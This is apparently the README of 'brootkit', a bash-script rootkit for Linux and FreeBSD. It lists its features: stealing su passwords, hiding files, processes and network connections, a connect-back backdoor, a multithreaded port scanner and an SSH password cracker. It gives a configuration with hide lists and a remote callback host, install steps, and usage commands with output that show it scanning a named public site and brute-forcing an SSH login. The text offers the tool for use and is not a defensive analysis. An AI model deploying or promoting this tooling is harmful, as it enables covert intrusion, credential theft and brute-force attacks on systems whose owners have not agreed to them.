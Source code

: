 ###### BROOTKIT
    Lightweight rootkit implemented using bash shell scripts v0.10
    
    by wzt 2015   wzt.wzt@gmail.com
    
    If bash shell scripts can be designed for security tools like chkrootkit
    or rkhunter, so too can it be implemented for a rootkit.

###### FEATURES
    1. more hidable ability against admintrator or hids.
    2. su passwd thief.
    3. hide file and directories.
    4. hide process.
    5. hide network connections.
    6. connect backdoor.
    7. multi thread port scanner.
    8. http download.
    9. multi thread ssh passwd crack.

###### TARGET OS
    1. centos
    2. rhel
    3. ubuntu
    4. debian
    5. fedora
    6. freebsd

###### TODO
    1. sudo thief support.

###### INSTALL

    Linux distribution systems.

    1. edit br.conf first

      brootkit config file.

      #these ports will be hidden: port1,port2,...,portn.
      HIDE_PORT               8080,8899
      #these files will be hidden: file1,file2,...,filen.
      HIDE_FILE               br.conf,bashbd.sh,brootkit,.bdrc,brdaemon
      #these processes will be hidden: process1,process2,...,processn.
      HIDE_PROC               bashbd,brootkit,pty.spawn,brdaemon
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60

    2. ./install.sh

    3. multi thread port scanner.

      [root@localhost brootkit]$ ./brscan.sh
      ./brscan.sh <-p> [-n|-t|-o|-h] <remote_host>

      option:
      -p              ports, pattern: port1,port2,port3-port7,portn...
      -n              thread num, default is 10
      -t              timeout, default is 30s
      -o              results write into log file, default is brscan.log
      -h              help information.

      exp:
      ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 20 www.cloud-sec.org
      ./brscan.sh -p 1-65525 -n 200 -t 20 www.cloud-sec.org

      [root@localhost brootkit]# ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 5 -n 20 www.wooyun.org
      host: www.wooyun.org | total ports: 10 | thread num: 10 timeout: 5 | logfile: brscan.log

      thread<0    >           --              pid <57053>     -->     21
      thread<1    >           --              pid <57054>     -->     22
      thread<2    >           --              pid <57055>     -->     23
      thread<3    >           --              pid <57056>     -->     24
      thread<4    >           --              pid <57057>     -->     80
      thread<5    >           --              pid <57058>     -->     135
      thread<6    >           --              pid <57059>     -->     136
      thread<7    >           --              pid <57060>     -->     137
      thread<8    >           --              pid <57061>     -->     138
      thread<9    >           --              pid <57070>     -->     8080

      [>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>]     10/10     6 s

      www.wooyun.org: 80

    4. multi thread ssh passwd crack.
      [root@localhost brootkit]# ./sshcrack.sh
      ./sshcrack.sh <-h host> <-u user> <-p passwd> [-t timeout] [-n threadnum] [-o logfile]

      option:
      -h              host name or host list file.
      -u              user name or user list file.
      -p              single passwd or passwd list file.
      -t              connect timeout, defalut is 5s.
      -n              thread num, default is 1.
      -o              log file.
      -v              display help information.

      exp:

      ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst
      ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst -n 10 -t 2
      ./sshcrack.sh -h 192.168.215.148 -u user.lst -p passwd.lst -n 10 -t 2
      ./sshcrack.sh -h host.lst -u user.lst -p passwd.lst -n 10 -t 2

      [root@localhost brootkit]# ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst -n 6
      host: 1 | users: 1 | passwd: 28 thread: 6 | timeout: 10 | logfile: sshcrack.log

      Thread[ 1]      wzt@192.168.215.148             ==>     [e               ]      [failed]         3
      Thread[ 2]      wzt@192.168.215.148             ==>     [a               ]      [failed]         3
      Thread[ 3]      wzt@192.168.215.148             ==>     [d               ]      [failed]         3
      Thread[ 4]      wzt@192.168.215.148             ==>     [123456789       ]      [success]        6
      Thread[ 5]      wzt@192.168.215.148             ==>     [123456          ]      [failed]         3
      Thread[ 6]      wzt@192.168.215.148             ==>     [fd              ]      [failed]         3

      waiting all threads to finsh...

    Freebsd system
    on the modern freebsd system root use csh by default, the other users
    use sh default. this version of brootkit can only support sh based features.

    1. edit brsh.conf first

    brshootkit config file, only one argument support.

      #this port will be hidden.
      HIDE_PORT               8080
      #these files will be hidden.
      HIDE_FILE               brsh
      #these process will be hidden.
      HIDE_PROC               sh
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60

    2. ./install.sh

###### SOURCE
    https://github.com/cloudsec/brootkit

